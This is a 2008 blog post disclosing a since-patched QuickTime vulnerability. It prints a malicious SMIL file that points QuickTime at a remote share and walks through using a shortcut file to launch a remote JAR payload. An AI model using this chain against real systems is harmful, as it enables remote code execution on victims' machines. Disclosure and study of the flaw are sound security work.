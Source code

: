 ```yaml
---
title: Details of the QuickTime Vulnerability
author: petko-d-petkov
date: Tue, 09 Sep 2008 14:24:38 GMT
template: post.jade
---
```


In this post I intend to give a brief overview of the QuickTime vulnerability which I partially-disclosed over [here](/blog/quicktime-0day-for-vista-and-xp/). I should have made these details public long time ago but better late than never. The vulnerability has been fixed for several months now and I believe it is safe to talk about it in the public.

Let's start with an example. The following is the source code of a malicious QuickTime SMIL file:

```xml
**SMILtext** <smil
xmlns:qt="http://www.apple.com/quicktime/resourc
es/smilextensions" qt:autoplay="true"
qt:next="**file://172.16.3.124/evil/evil.lnk**">
<body>
<seq repeatCount="indefinite">
<img src="test.jpg" dur="1s"/>
<img src="test.jpg" dur="1s"/>
</seq>
</body>
</smil>
```

First of all, we start with the SMIL header (`SMILtext`). This is necessary in order to masquerade the file as a different file type, i.e. if we paste the above text into a file with extension `.mp3`, it will still play in QuickTime. We can use practically any other file extension which defaults to the QuickTime player.

After that we follow with a very standard SMIL document. The most interesting information in order to make the exploit works is contained inside the `qt:next` attribute of the `smil` root element. This attribute instructs QuickTime to play another media file after we are done with the current one. The attribute expects a URL which can start with the `file://` protocol handler. This is understandable since we might want to play local files as well as remote ones, i.e. `http://`.

The URL is passed to the `FileProtocolHandler` from `url.dll`. The function understands that we are asking for a local resource. However, pay attention on the format of the URL we are passing. Let's take a closer look: `file://172.16.3.124/evil/evil.lnk`

Most of you will recognize that this is a URL which points to a NETBIOS share located on `172.16.3.124`.

Perhaps you are thinking that this is the problem. Well yes, but we are not there just yet. Initially, when I was playing with this bug, I was trying to launch a URL like this one: `file://172.16.3.124/evil/evil.exe`. The URL points to an executable. Unfortunately, the attack was failing because usually XP SP1 and up, I believe (excuse my ignorance), will warn you that you are trying to execute an application from an untrusted share. Typically, you will see a warning box but because `FileProtocolHandler` suppresses that, the function silently fails. I've tried with `.bat`, `.cmd`, `.vbs`, `.js`, `.application` and other known executable file formats but none of them seemed to work. This is due to the fact that the operating system knows that these files are executables and could harm your system, therefore it prevents their execution.

So I needed to find a file format which is executable but Windows does not know about it just yet. It seems that `.jar` fits perfectly my requirements. `.jar` is the file extension of the JAR archive, a ZIP archive with a manifest file which instructs the Java interpreter what class should be executed as the main one. `.jar` files are executable as long as you have Java on your system.

So we are done! Right? Not quite. If you try to send `file://172.16.3.124/evil/evil.jar` to `FileProtocolHandler` you will notice that `java.exe` fails with an error messages informing you that there is no such class. What happens is that Java does not understand what `file://172.16.3.124/evil/evil.jar` actually is. This is due to the fact that the URL notation we are using is non-standard, i.e. it is made up by Microsoft's engineers to seamlessly incorporate NETBIOS shares into the operating system.

So what do we do? It took me some time to figure this out. My approach is very simple. First of all we create a simple `.lnk` (link/shortcut) file in the same directory where the malicious `.jar` file is located. Then we use the shortcut to rewrite the URL from `file://172.16.3.124/evil/evil.jar` to `\\172.16.3.124\evil\evil.jar`, which is the correct NETBIOS notation. The Java interpreter is very much aware of this syntax and it will happily load the file and attack the victim's system.

> In summary, I had to go from QuickTime to Windows Internals to URL Manipulation to Java. However, the attack is very simple to implement and understand, yet very effective. I must say that you can definitely win a laptop on the annual POWN2OWN contest by using as simple trick as the one presented here. Security vulnerabilities do not have to be complicated!

_I am planning to talk about the impact of this attack in my next post._

